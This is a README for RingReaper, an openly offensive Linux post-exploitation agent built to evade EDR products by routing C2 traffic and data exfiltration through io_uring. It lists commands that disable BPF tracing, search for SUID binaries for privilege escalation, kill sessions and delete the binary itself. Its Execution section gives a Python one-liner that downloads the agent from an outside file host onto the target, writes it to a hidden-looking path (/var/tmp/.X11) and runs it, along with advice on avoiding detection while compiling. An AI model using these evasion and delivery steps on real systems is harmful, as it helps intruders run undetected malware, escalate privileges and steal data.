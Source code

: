 # RingReaper

**RingReaper** is a simple post-exploitation agent for Linux designed for those who need to operate stealthily, minimizing the chances of being detected by EDR solutions. The idea behind this project was to leverage **io_uring**, the new asynchronous I/O interface in the Linux kernel, specifically to avoid traditional system calls that most EDRs tend to monitor or even hook.

In practice, RingReaper replaces calls such as `read`, `write`, `recv`, `send`, `connect`, among others, with asynchronous I/O operations (`io_uring_prep_*`), reducing exposure to hooks and event tracing typically collected in a standardized way by security products.

> **NOTE:** Some functions within RingReaper still rely on traditional calls, such as directory reading (`opendir`, `readdir`) or symbolic link resolution (`readlink`), because io_uring **does not yet fully support** these types of operations natively. Even so, during my tests, these calls did not trigger alerts on the tested EDRs, precisely because they fall outside the monitored network I/O paths.

In summary, RingReaper was built to **avoid traditional calls as much as possible**, and even in cases where it had to use them, it demonstrated excellent evasion capabilities, with no alerts or detections from common security agents.

See the full and detailed article at:

https://matheuzsecurity.github.io/hacking/evading-linux-edrs-with-io-uring/

Author: https://www.linkedin.com/in/mathsalves/

Rootkit Researchers

- https://discord.gg/66N5ZQppU7

## Command Reference

| Command       | Description                                              | Backend              |
|---------------|----------------------------------------------------------|----------------------|
| `get`         | Look files from the target                           | 100% io_uring        |
| `put`         | Upload files (uses `recv` on the agent side)             | 100% io_uring        |
| `killbpf`     | Disable tracing, remove `/sys/fs/bpf` files and kill processes using `bpf-map` | traditional calls + io_uring |
| `users`       | List logged-in users by reading `utmp`                   | 100% io_uring        |
| `ss` / `netstat` | List TCP connections from `/proc/net/tcp`            | 100% io_uring        |
| `privesc`     | Search for SUID binaries using `statx`                   | 100% io_uring        |
| `ps`          | List processes (uses `opendir`, `readdir`)               | traditional calls + io_uring   |
| `kick`        | Kill `pts` sessions (uses `opendir`, `readdir`, `kill`, `readlink`) | traditional calls + io_uring |
| `me`          | Show PID/TTY (`getpid`, `ttyname`)                       | traditional calls + io_uring   |
| `selfdestruct`| Delete the current binary (uses `readlink`)              | traditional calls + io_uring   |
| `exit`        | Terminate connection and exit                            | 100% io_uring        |
| `help`        | Display help                                             | 100% io_uring        |

In RingReaper, all data traffic, including control commands, uploads, and downloads, must pass through io_uring. This also ensures that the most sensitive operations remain off the radar of hooks and EDR monitoring based on traditional calls.

## About Evasion

RingReaper was designed from the ground up to bypass EDR monitoring. Many security solutions base their detection triggers on intercepting classic syscalls (`read`, `recv`, `send`, `connect`) at the kernel level. Since `io_uring` is relatively new and less integrated into the telemetry pipeline of these products, it often goes unnoticed by most agents, allowing for C2 sessions and data exfiltration without triggering alerts.

Even functions that still rely on older syscalls (such as directory reading) remained discreet enough not to raise alarms.

## Requirements

- Linux kernel 5.1 or higher  
- `liburing` library  
- A compatible C compiler (tested with GCC)  

## Env

Tested **ONLY** on the following kernel versions below;

- 6.8.0-60-generic
- 6.12.25-amd64

## Compilation

```
sudo apt install liburing-dev -y
gcc agent.c -o agent -luring -O2 -s -static
```

## Execution

In testing, I noticed that EDR detected the compilation of `agent.c` by monitoring GCC usage in real time (it's better not to use wget/curl). To bypass this, I compiled the agent statically on my machine, sent the finished binary via `temp.sh` and used Python on the target to download and execute it. This technique worked without warning.

Server (Attack box) : 

- `curl -F "file=@agent" https://temp.sh/upload`
- `python3 server.py --ip IP --port 443` 

Agent (Target machine) :

- `python3 -c "import urllib.request,os,subprocess; u=urllib.request.Request('http://temp.sh/xxxx/stealth_agent',method='POST'); d='/var/tmp/.X11'; open(d,'wb').write(urllib.request.urlopen(u).read()); os.chmod(d,0o755); subprocess.Popen([d]);"`

## Contribution

Feel free to make pull requests and contribute to the project, which is initially just a simple POC.

## Disclaimer

This code was developed solely for educational purposes, research, and controlled demonstrations of evasion techniques. Any use outside authorized environments, or for malicious purposes, is strictly prohibited and entirely the responsibility of the user. Unauthorized or illegal use may violate local, national, or international laws.
